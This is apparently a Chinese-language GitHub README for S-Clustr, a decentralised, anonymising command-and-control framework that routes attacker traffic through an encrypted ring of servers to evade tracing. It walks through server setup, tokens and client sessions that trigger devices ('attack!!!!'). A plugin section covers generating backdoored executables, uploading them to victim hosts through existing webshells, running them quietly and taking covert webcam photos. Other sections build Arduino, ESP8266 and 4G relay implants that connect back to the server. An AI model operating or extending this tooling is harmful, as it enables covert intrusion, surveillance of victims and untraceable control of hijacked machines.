

  <div align="center">
<p align="center">
 
 
  
  
 
 
</p>

# 前言


* 相比较上一个版本安全性匿名性大幅度上升,采用去中心化控制。
* 也将意味着每一个Server即是服务端也是客户端,并且新增Root根服务器
* 在环形网络中,流量全部进行加密,匿名者通过控制设备时,将不断通过服务器之间跳转来防溯源
* 重放攻击防护,数据包也是生命的...
* 访问权限控制,匿名者可以直接控制Server也可以通过环形网络二次控制,但Server不会提供设备状态,防止即使被其他黑客破解并且接管设备
* 匿名者在环网中将不会记录IP,UDP通讯,更快
* TCP对TCP版本请转到[https://github.com/MartinxMax/S-Clustr]
* 该版本可能较为复杂,控制设备数量成功放大N倍
* 中间人即使截获数据包没有密钥,也无法解密内容


# 环网加密
## 基础使用

### 安装依赖

`$ . Linux_Installer.sh`


`>Windows_Installer.bat`




### ROOT服务端启动 [192.168.8.105]

``$python S-Clustr_Root_Server.py``


```
[22:54:49] | ROOT     | [INFO] Root query service [192.168.8.105:10091]
[22:54:49] | ROOT     | [INFO] Root query token [121f5b330619d641587d3c9fd022d97a]
[22:54:49] | ROOT     | [INFO] Root service [192.168.8.105:10090]
[22:54:49] | ROOT     | [INFO] Root token [6b50a56fc2196451cae1e10420fadbe0]
```
### B核心服务器启动 [192.168.8.105]

配置环网密钥为S-H4CK13@Maptnh.

`$python S-Clustr_Server.py -ring-key S-H4CK13@Maptnh.`


```
[22:56:30] | System   |  [INFO] Server token [f871f0e6c54b58d8be18439cc766a692]
[22:56:30] | System   |  [INFO] Device token [d0086d0edd098498a2f5107a4a3a60bf]
[22:56:30] | System   |  [INFO] Ring network token [1f14d2b21d43468d12c5f1834cd00b21]
[22:56:30] | System   |  [INFO] Device Service [192.168.8.105:10000]
[22:56:30] | System   |  [INFO] Max devices [20]...
[22:56:30] | System   |  [INFO] Device heartbeat packet time [30/s]
[22:56:30] | System   |  [INFO] Ring network service [192.168.8.105:10089]
[22:56:30] | System   |  [CONFING] Configure file updates every 6 seconds
```


修改B核心服务器中[Config/Server.conf]的REMOTE_ROOT_SERVER参数,使得设备状态推送该根服务器
``"REMOTE_ROOT_SERVER": {
		"TOKEN": "6b50a56fc2196451cae1e10420fadbe0",
		"IP": "192.168.8.105",
		"PORT":10090
	},``

修改B核心服务器中[Config/Proxy.conf]参数,将路由数据包到以下IP
``{
  "Route": ["192.168.8.107:10089"]
}``
### C核心服务器启动 [192.168.8.107]
并且配置环网密钥为S-H4CK13@Maptnh.

`>python S-Clustr_Server.py -ring-key S-H4CK13@Maptnh.`


```
[23:41:50] | System   |  [INFO] Server token [63dd7b5ad871ddb06389dfa5d9130351]
[23:41:50] | System   |  [INFO] Device token [ab0b3c5367fe8604c80183e0ee7f567d]
[23:41:50] | System   |  [INFO] Ring network token [1f14d2b21d43468d12c5f1834cd00b21]
[23:41:50] | System   |  [INFO] Max devices [20]...
[23:41:50] | System   |  [INFO] Device Service [169.254.241.130:10000]
[23:41:50] | System   |  [INFO] Device heartbeat packet time [30/s]
[23:41:50] | System   |  [INFO] Ring network service [169.254.241.130:10089]
[23:41:50] | System   |  [CONFING] Configure file updates every 6 seconds
```


修改服务器C中[Config/Server.conf]的REMOTE_ROOT_SERVER参数,使得设备状态推送该根服务器
``"REMOTE_ROOT_SERVER": {
		"TOKEN": "6b50a56fc2196451cae1e10420fadbe0",
		"IP": "192.168.8.105",
		"PORT":10090
	},``

修改服务器C中[Config/Proxy.conf]参数,将路由数据包到以下IP
``{
  "Route": ["192.168.8.105:10089"]
}``

### 匿名者控制视角

访问根服务器(192.168.8.105),查询核心服务器(192.168.8.107)的设备表


```
┌──(maptnh㉿Maptnh)-[~/桌面/S-Clustr]
└─$ python S-Clustr_Client.py

███████╗       ██████╗██╗     ██╗   ██╗███████╗████████╗██████╗
██╔════╝      ██╔════╝██║     ██║   ██║██╔════╝╚══██╔══╝██╔══██╗
███████╗█████╗██║     ██║     ██║   ██║███████╗   ██║   ██████╔╝
╚════██║╚════╝██║     ██║     ██║   ██║╚════██║   ██║   ██╔══██╗
███████║      ╚██████╗███████╗╚██████╔╝███████║   ██║   ██║  ██║
╚══════╝       ╚═════╝╚══════╝ ╚═════╝ ╚══════╝   ╚═╝   ╚═╝  ╚═╝
                Github==>https://github.com/MartinxMax
                S-H4CK13@Мартин. S-Clustr(Shadow Cluster) Server v1.2.0

************************************************************************************
<免责声明>:本工具仅供学习实验使用,请勿用于非法用途,否则自行承担相应的法律责任
<Disclaimer>:This tool is only for learning and experiment. Do not use it
for illegal purposes, or you will bear corresponding legal responsibilities
************************************************************************************
S-H4CK13@Maptnh

Welcome to S-Clustr console. Type [options][help/?] to list commands.

[S-H4CK13@S-Clustr]<v1.2.0># options
| Name           | Current Setting | Required | Description
|:--------------:|:---------------:|:--------:|:-----------------
| s-key          |                 | yes      | Server token (TOKEN)(UDP)(Ring network)
| s-host         |                 | yes      | Server ip (UDP)(Ring network)
| s-port         | 10089           | no       | Server port (UDP)(Ring network)
| id             |                 | yes      | Device ID [0-n/0 represents specifying all]
| pwr            |                 | yes      | Device behavior (run[1]/stop[2]/Query device status[3])(1/2-UDP(Ring network))(3-TCP)
| rnt-host       |                 | yes      | Proxy server (UDP)(Ring network)
| rnt-port       | 10089           | no       | Proxy server port(UDP)(Ring network)
| rnt-key        |                 | yes      | Ring token (TOKEN)(UDP)(Ring network)
| root-q-host    |                 | yes      | Root server ip (QUERY)(TCP)(ROOT)
| root-q-port    | 10091           | no       | Root server port (QUERY)(TCP)(ROOT)
| root-q-key     |                 | yes      | Root server token (TOKEN)(QUERY)(TCP)(ROOT)
|:--------------:|:---------------:|:--------:|:-----------------

[S-H4CK13@S-Clustr]<v1.2.0># set s-host 192.168.8.107 # 服务器地址
[*] s-host => 192.168.8.107
[S-H4CK13@S-Clustr]<v1.2.0># set id 0 # 查询所有设备
[*] id => 0
[S-H4CK13@S-Clustr]<v1.2.0># set pwr 3 # 查询操作
[*] pwr => 3
[S-H4CK13@S-Clustr]<v1.2.0># set root-q-host 192.168.8.105 # 根服务器地址
[*] root-q-host => 192.168.8.105
[S-H4CK13@S-Clustr]<v1.2.0># set root-q-key 121f5b330619d641587d3c9fd022d97a # 根服务器查询TOKEN
[*] root-q-key => 121f5b330619d641587d3c9fd022d97a
[S-H4CK13@S-Clustr]<v1.2.0># run
[*] Connecting to the server...
IP      | Ring Port | Device Port | Device_max | ID | Type  | Status  | Network
----------------------------------------------------------------------------
192.168.8.107 | 10089     | 10000       | 20        | 1 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 2 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 3 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 4 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 5 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 6 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 7 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 8 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 9 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 10 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 11 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 12 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 13 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 14 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 15 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 16 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 17 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 18 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 19 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 20 | None | Stopped | Disconnected
[S-H4CK13@S-Clustr]<v1.2.0>#
```
### 被控端启动[Pc_demo.py]进行测试

被控端反向连接C核心服务器[192.168.8.107]
(恶搞一下ta)


### 匿名者通过环形网络来跳转攻击


```
[S-H4CK13@S-Clustr]<v1.2.0># options
| Name           | Current Setting | Required | Description
|:--------------:|:---------------:|:--------:|:-----------------
| s-key          |                 | yes      | Server token (TOKEN)(UDP)(Ring network)
| s-host         | 192.168.8.107   | no       | Server ip (UDP)(Ring network)
| s-port         | 10089           | no       | Server port (UDP)(Ring network)
| id             | 0               | no       | Device ID [0-n/0 represents specifying all]
| pwr            | 3               | no       | Device behavior (run[1]/stop[2]/Query device status[3])(1/2-UDP(Ring network))(3-TCP)
| rnt-host       |                 | yes      | Proxy server (UDP)(Ring network)
| rnt-port       | 10089           | no       | Proxy server port(UDP)(Ring network)
| rnt-key        |                 | yes      | Ring token (TOKEN)(UDP)(Ring network)
| root-q-host    | 192.168.8.105   | no       | Root server ip (QUERY)(TCP)(ROOT)
| root-q-port    | 10091           | no       | Root server port (QUERY)(TCP)(ROOT)
| root-q-key     | 121f5b330619d641587d3c9fd022d97a | no       | Root server token (TOKEN)(QUERY)(TCP)(ROOT)
|:--------------:|:---------------:|:--------:|:-----------------

[S-H4CK13@S-Clustr]<v1.2.0># set s-host 192.168.8.107 # 设置目标核心服务器
[*] s-host => 192.168.8.107
[S-H4CK13@S-Clustr]<v1.2.0># set s-key 4b111f2e85b49a2869e0ff1b36f6f4bc # 设置目标核心服务器Server TOKEN
[*] s-key => 4b111f2e85b49a2869e0ff1b36f6f4bc
[S-H4CK13@S-Clustr]<v1.2.0># set rnt-host 192.168.8.105 # 设置环网中的代理服务器
[*] rnt-host => 192.168.8.105
[S-H4CK13@S-Clustr]<v1.2.0># set rnt-key 1f14d2b21d43468d12c5f1834cd00b21 # 设置环网TOKEN
[*] rnt-key => 1f14d2b21d43468d12c5f1834cd00b21
[S-H4CK13@S-Clustr]<v1.2.0># set id 1 # 选择第一号设备
[*] id => 1
[S-H4CK13@S-Clustr]<v1.2.0># set pwr 1 # 运行操作
[*] pwr => 1
[S-H4CK13@S-Clustr]<v1.2.0># run # 攻击!!!!!
[*] Connecting to the server...
[*] Sending to [192.168.8.105:10089] # 流量正在通过代理

# 查询设备状态
[S-H4CK13@S-Clustr]<v1.2.0># set id 1
[*] id => 1
[S-H4CK13@S-Clustr]<v1.2.0># set pwr 3
[*] pwr => 3
[S-H4CK13@S-Clustr]<v1.2.0># run
[*] Connecting to the server...
IP      | Ring Port | Device Port | Device_max | ID | Type  | Status  | Network
----------------------------------------------------------------------------
192.168.8.107 | 10089     | 10000       | 20        | 1 | PC | Runing | Connected
```


### 原理图


# 使用Nets3e插件进行偷拍[新旧适用]

## 安装依赖

`$ . Linux_Nets3e_plugin_installation.sh`


`>Windows_Nets3e_plugin_installation.bat`


## 生成带有后门的应用程序

根据你的主机类型选择依赖安装程序。


## 配置Nets3e

安装完成后,我们需要启动Nets3e服务端（这边建议python版本>3.9）

`#python3 Nets3e.py`


*这里的端口为10032*

## 生成payload

`#python3 Generate.py`[最右侧]

`#python3 S-Clustr_Server.py`[左上角]

*根据提示填写正确参数*


*在目录.\Output\Nets3e 下生成了程序,点击toexe程序,将程序转为exe*


*测试本地设备端成功上线*

## 内网webshell获取照片

*利用之前的两台主机的webshell,把我们的main.exe上传到服务器运行*

*通过蚁剑,上传*


*打开受害主机终端,悄悄咪咪的运行一个backdoor*
*成功连接服务器*


*其他被控主机也同样方法连接服务器*

## 打开客户端控制拍照

PS:以下为旧版本S-Clustr_Client端,使用方法均相同

`#python3 S-Clustr_Client.py`


*配置参数*


*成功获取设备表单,代表你的密钥是正确的*


*控制设备1拍照*


*设备1收到命令拍摄照片*


*当set id 0 时将控制设备表中所有设备进行拍照*


# S-Clustr 嵌入式设备端 [新旧适用]

## Arduino

### 有线局域网控制

#### 准备设备材料(合计 50￥ )

1.Arduino UNO (17￥)


2.ENC28J60 (28￥)


3.1路继电器模块5V (3￥)


4.杜邦线 (2￥)
母转母


#### 接线原理图


### 4G无线公网远控

#### 准备设备材料(合计 48￥ )

1.Arduino UNO (17￥)


2.SIM900A或SIM800A (26￥)


2.1路继电器模块5V (3￥)


3.杜邦线 (2￥)
母转母


4.移动卡

*这里需要移动卡是因为SIM800A与SIM900A支持移动的2G网,电信就不行,联通也不行...不过后面测试合宙AIR780e的板子应该联通可行,也就是不需要SIM系列了,内部集成好了*


#### 接线原理图

这里将模拟Arduino收到信号后控制继电器行为


*不会写代码?...使用Generate.py生成Arduino代码就OK了*

## ESP8266 (WIFI局域网控制)

#### 准备设备材料(合计 18￥ )

1.ESP8266 (13￥)


2.1路继电器模块5V (3￥)


3.杜邦线 (2￥)
母转母


#### 接线原理图


## AIR780E (4G无线公网远控)[推荐]

### 注意事项

1.该开发板经测试后,的确比SIM系列来的更加快速稳定
2.安装Luatools：用于完成程序烧录
[https://doc.openluat.com/wiki/37?wiki\_page\_id=4489]

#### 准备设备材料(合计 47￥ )

1.Air780e开发板 (42￥)

*背面有一个sim卡槽*


2.1路继电器模块5V (3￥)


3.杜邦线 (2￥)
母转母


#### 接线原理图


#### 烧录程序

*将我们Generate生成的文件导入进Luatools*


*选择底层core,在我们的Output\AIR780E\LuatOS-SoC\_V1103\_EC618.soc有提供*


*根据提示完成烧录,注意板子上的三个键,分别为 启动 复位 BOOT*


## AT89C51

### 准备设备材料(合计 42￥ )

1.51单片机最小系统开发板送CH340下载器 (11￥)


2.1路继电器模块5V (3￥)


3.杜邦线 (2￥)
母转母


4.SIM900A或SIM800A (26￥)


5.移动卡


### 接线原理图


## Generate一键生成烧录代码

`python3 Generate.py`


*填写完成参数,这里的127.0.0.1是错误的,你应该输入服务端的公网IP地址,也就是运行S-Clustr\_Server.py的服务器的IP*


*输出烧录代码将在目录.\Device\Output\型号 目录下*

# S-Clustr 服务端

注意:
1.服务端必须在公网,如果你的服务端在内网可以考虑端口映射,黑客端服务默认在端口9999,设备端服务默认在端口10000
2.服务端与黑客端是全程高度加密通信的,强制开启加密服务不可关闭。其次你可以通过Server.conf文件内的配置,来决定嵌入式设备或被控PC接入时是否提供加密服务
3.对于Server.conf文件内参数不理解,请详细阅读手册文档
4.服务端每次启动都将随机长度为12个字符作为密钥用作于黑客与被控设备的身份认证,防止其他黑客未授权接入控制设备。你可以手动指定密钥(python3 S-Clustr\_Server.py -keyh Maptnh -keyv Maptnh)
—这里黑客端与被控端各2个密钥,首次为明文密钥,如果你觉得过于敏感,可以把其次的临时TOKEN当作密钥,有效防止明文密钥被破解

![0OVQK\[M(I}1)2T\]1}$28AXK.png](https://image.3001.net/images/20231003/1696323112_651bd6286aa926034bd61.png!small)
*在该参数中,置1表示启动被控设备的加密服务,那么被控设备必须提供身份认证密钥才允许接入,否则拒绝*


5.有效防止中间人(MITM)嗅探分析黑客端与服务端通信数据包,再进一步防止重放攻击与加密数据被破解

## 服务端脚本参数解析

`-lh`:绑定指定本地IP,默认0.0.0.0
`-lpv`:设置本地监听地址(设备端)默认10000端口
`-lph`:设置本地监听地址(黑客端)默认9999端口
`-keyh`:设置黑客端密钥,默认随机12位字符作为密钥
`-keyv`:设置设备端密钥,默认随机12位字符作为密钥

## 服务端运行

`python3 S-Clustr_Server.py`


# S-Clustr 黑客端

注意:
客户端采用交互式运行,操作类似于Metasploit渗透测试框架

## 黑客端脚本参数解析

进入后输入 `help`或 `?`或 `options`来查看所需要设置的参数
`set rhosts <IP>`:设置服务端的IP
`set rport <Port>`:设置服务端的端口
`set id <number>`:选择所需要控制的设备ID编号,0表示选中所有设备
`set pwr <state>`:控制设备状态,启动[1],停止[2],查询状态[3]

## 黑客端连接服务端

`python3 S-Clustr_Server.py`


*查询全部设备当前状态*

```
S-Clustr(V1.0.0)> set rhost 127.0.0.1
[*] rhost => 127.0.0.1
S-Clustr(V1.0.0)> set id 0
[*] id => 0
S-Clustr(V1.0.0)> set pwr 3
[*] pwr => 3
```

PS:这里必须填写Key,这将决定你是否有权限接入服务器的关键要素。
在服务端中,你可以任意挑选一个作为密钥


```
S-Clustr(V1.0.0)> set key cf5cdc4798a72283a4c0c0b1ef2ef5da
[*] key => cf5cdc4798a72283a4c0c0b1ef2ef5da
```

## 查询全部设备状态

```
S-Clustr(V1.0.0)> set id 0
[*] id => 0
S-Clustr(V1.0.0)> set pwr 3
[*] pwr => 3
S-Clustr(V1.0.0)> run
[*] Connecting to the server...
[*] Attempting to authenticate to the server [127.0.0.1:9999]
|   Device ID   |  Device Type  | Device State | Device Network |
|:-------------:|:-------------:|:-------------:|:---------------:|
|       1        |      None      |    Stopped     |   Disconnected   |
|       2        |      None      |    Stopped     |   Disconnected   |
|       3        |      None      |    Stopped     |   Disconnected   |
|       4        |      None      |    Stopped     |   Disconnected   |
|       5        |      None      |    Stopped     |   Disconnected   |
|       6        |      None      |    Stopped     |   Disconnected   |
|       7        |      None      |    Stopped     |   Disconnected   |
|       8        |      None      |    Stopped     |   Disconnected   |
|       9        |      None      |    Stopped     |   Disconnected   |
|       10       |      None      |    Stopped     |   Disconnected   |
|:-------------:|:-------------:|:-------------:|:---------------:|
```

*我们可以看到已经成功接入服务器了,身份认证成功*

*我们设置错误的Key时,服务器将无法对你进行授权*


*【模拟被控设备连接服务端】通过黑客端控制全部设备*


*设备全部上线*


## 控制全部设备启动

```
S-Clustr(V1.0.0)> set id 0
[*] id => 0
S-Clustr(V1.0.0)> set pwr 1
[*] pwr => 1
S-Clustr(V1.0.0)> run
```


## 控制全部设备停止

```
S-Clustr(V1.0.0)> set id 0
[*] id => 0
S-Clustr(V1.0.0)> set pwr 2
[*] pwr => 2
S-Clustr(V1.0.0)> run
```


# 案例:被控端收到命令后,访问www.bing.com，并且打开计算器


*输入我们的被控端KEY*


*被控端成功接入*

*我们的黑客端也成功查询到设备*


*控制设备完成题目要求*


